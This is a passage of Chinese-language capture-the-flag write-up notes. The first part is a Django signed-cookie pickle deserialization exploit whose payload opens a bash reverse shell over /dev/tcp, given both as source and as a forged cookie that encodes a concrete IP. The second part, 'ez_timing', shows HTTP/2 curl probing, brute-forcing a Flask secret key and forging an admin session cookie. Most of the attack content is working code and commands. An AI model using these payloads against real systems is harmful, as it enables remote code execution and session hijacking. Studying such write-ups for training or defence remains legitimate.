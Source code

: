 ```python
        return pickle.dumps(obj)

    def loads(self, data):
        return pickle.loads(data)


class Command(object):
    def __reduce__(self):
        return (subprocess.Popen, (('bash -c "bash -i >& /dev/tcp/xxx/3000 <&1"',),-1,None,None,None,None,None,False, True))


def exp(self):
    SECRET_KEY = 'p(^*@36nw13xtb23vu%x)2wp-vk)ggje^sobx+*w2zd^ae8qnn'
    salt = "django.contrib.sessions.backends.signed_cookies"
    out_cookie= django.core.signing.dumps(
        Command(), key=SECRET_KEY, salt=salt, serializer=PickleSerializer)
    return HttpResponse(out_cookie)
```
```python
gASVYgAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlCiMNGJhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTE5LjI5LjIwNy4yNy8zMDAwIDwmMSKUhZRK_____05OTk5OiYh0lFKULg:1qQe0Y:JrXwUfbqSYlYlhRUQ6XKt86TyL4
```
在login时抓包，更改session，反弹shell（POST好像不行
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1690852679552-8c85fc14-63b8-46d5-9a54-a70e9f93e2fc.png#averageHue=%23f6f3f3&clientId=uc4ad73ec-5559-4&from=paste&height=285&id=ucc0fd0f3&originHeight=285&originWidth=748&originalType=binary&ratio=1&rotation=0&showTitle=false&size=40766&status=done&style=none&taskId=u5701d639-3914-4f5f-bba4-8ef62fd6b93&title=&width=748)
### ez_timing
HTTP/2；timing
[https://github.com/ConnorNelson/spaceless-spacing](https://github.com/ConnorNelson/spaceless-spacing)
```javascript
-v 可以输出调试信息
curl --http2-prior-knowledge 139.155.99.122:12003
curl --http2-prior-knowledge 139.155.99.122:12003/file
curl --http2-prior-knowledge -I 139.155.99.122:12003/getkey （HEAD请求）
curl --http2-prior-knowledge -X POST 139.155.99.122:12003/getkey （POST请求）
```
需要爆破密钥，使用flask-unsign
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1691054200432-156b7935-003a-48f3-8b10-edb20476cf07.png#averageHue=%23101010&clientId=u6561ac37-4c55-4&from=paste&height=70&id=u027296e8&originHeight=70&originWidth=956&originalType=binary&ratio=1&rotation=0&showTitle=false&size=12641&status=done&style=none&taskId=u9747366a-6540-497c-949d-120a7871043&title=&width=956)
flask-sessioin-cookie-manager3.py伪造cookie
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1691054512859-e935311d-cc3c-41d1-9e73-e79911e2adc8.png#averageHue=%23191919&clientId=u6561ac37-4c55-4&from=paste&height=83&id=uba9723a6&originHeight=83&originWidth=1024&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16960&status=done&style=none&taskId=u46613808-2d78-42f6-bae2-79d30317e05&title=&width=1024)
```javascript

curl --http2-prior-knowledge -H "Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.ZL6kNA.shduF_TuEL8rRpIZMugxe36Ovas;" 139.155
.99.122:12003/file -v
```
源码
```javascript
#!/usr/bin/env python

import time
from flask import Flask, session,request
import os
import random

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(2).hex()

FLAG = os.environ["SECRET"]
assert " " not in FLAG

TINY_TIME = 6.114514 * 10 ** -44
```